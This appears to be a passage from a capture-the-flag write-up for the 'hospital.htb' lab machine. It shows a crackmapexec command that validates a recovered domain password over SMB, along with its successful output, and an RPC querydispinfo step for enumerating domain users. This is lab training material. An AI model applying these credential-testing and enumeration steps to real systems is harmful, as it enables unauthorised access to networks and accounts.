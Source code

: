 <figure><img src="../../.gitbook/assets/image (292).png" alt=""><figcaption></figcaption></figure>

Use crackmapexec to pass-the-password of chris brown:

```bash
./crackmapexec smb dc.hospital.htb -u drbrown -d hospital.htb -p 'chr!$br0wn' 
SMB         10.10.11.241    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:hospital.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.241    445    DC               [+] hospital.htb\drbrown:chr!$br0wn
```

### Exploit RPC

<figure><img src="../../.gitbook/assets/image (293).png" alt=""><figcaption></figcaption></figure>

Once connected, utilize the command “querydispinfo” to examine the data. You’ll notice that Administrator Information is shared with the Guest.
